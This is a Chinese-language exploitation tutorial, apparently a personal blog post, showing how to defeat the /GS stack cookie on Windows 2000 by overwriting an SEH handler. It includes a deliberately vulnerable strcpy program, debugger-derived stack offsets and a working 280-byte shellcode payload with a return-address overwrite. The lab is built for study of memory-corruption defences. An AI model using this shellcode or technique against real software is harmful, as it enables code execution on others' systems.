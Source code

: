```yaml
---
layout:		post
title:		攻击异常处理突破GS
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 2000 Professional sp4  
>编译器: Visual Studio 2005  
>调试器: OllyDbg 1.10  
>说明: Windows XP sp2以后采用SafeS.E.H, 避免干扰这里用Windows 2000。
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include <string.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

void test(char *input)
{
	char buf[200];
	strcpy(buf,input);
	__asm int 3
	strcat(buf,input);
}

int main()
{
	test(shellcode);

	return 0;
}
```

项目->属性, 选择release版本, 禁用优化


### 0x01 分析栈布局

运行*.exe, OllyDbg自动附加调试

![](/assets/img/exploit/2017-10-03-gsbreak-overflow-seh/0x00.png)

View->SEH chain, 查看最近的S.E.H结构

![](/assets/img/exploit/2017-10-03-gsbreak-overflow-seh/0x01.png)

定位到S.E.H Handler的栈地址0x0012ffb4

![](/assets/img/exploit/2017-10-03-gsbreak-overflow-seh/0x02.png)

再看看输入数据的起始栈地址0x0012fea0, 0x0012ffb4-0x0012fea0=276 byte

![](/assets/img/exploit/2017-10-03-gsbreak-overflow-seh/0x03.png)


### 0x02 exploit

组织280 byte的shellcode, 最后277~280 byte覆盖为shellcode的入口地址

```
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90"
"\xa0\xfe\x12\x00"
```

pwn~

![](/assets/img/exploit/2017-10-03-gsbreak-overflow-seh/0x04.png)